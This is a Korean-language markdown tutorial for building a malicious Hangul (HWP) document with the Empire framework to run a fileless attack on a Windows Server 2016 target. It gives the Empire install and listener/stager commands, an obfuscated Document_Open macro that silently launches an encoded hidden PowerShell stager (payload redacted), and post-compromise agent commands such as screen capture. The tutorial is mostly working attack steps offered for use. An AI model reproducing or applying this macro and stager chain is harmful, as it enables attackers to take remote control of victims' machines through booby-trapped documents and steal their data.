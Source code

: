 # 엠파이어(Empire)를 사용해 악성한글문서(Hwp)만들어 파일리스(Fileless) 공격하기

- 공격 서버 :smiling_imp: : 칼리 리눅스(Kali Linux amd64)
- 공격 대상 :skull: : 윈도우 서버 2016 (Windows Server 2016)

### 1. :smiling_imp: 엠파이어(Empire) 설치

```
git clone https://github.com/EmpireProject/Empire.git
cd Empire
sudo setup/install.sh
```

### 2. :smiling_imp: 엠파이어 실행 및 세팅

```
./empire
listeners
uselistener http
set Name something
execute
back
usestager windows/launcher_bat
set Listener something
generate
```

### 3. :smiling_imp: 악성 한글 문서 제작

1) 도구 > 보안 설정 > 보안수준 낮음 설정
2) 스크립트 매크로 > 실행 > 코드 편집
3) 항목 > Document / Open

```
function OnDocument_Open()
{
try{
  var ws=new ActiveXObject("W"+ "S"+ "c"+ "ri"+ "p"+ "t"+ ".S" +"he" +"ll");
  // launcher.bat의 powershell 실행 코드
  var ps="powershell -noP -sta -w 1 -enc *****"
  ws.Run(ps,0);
}catch(err){}
```

### 4. :skull: 악성 한글 문서 실행

- 사전 조건 : 백신 OFF, 한글 보안수준 낮음 설정, Windows Defender OFF

한글 문서를 오픈해서 스크립트 코드 실행

### 5. :smiling_imp: 세션 연결 성공 후 공격 가능

```
agents
list
interacct agentName
usemodule [tab][tab]

//example
usemodule collection/screenshot
execute
```
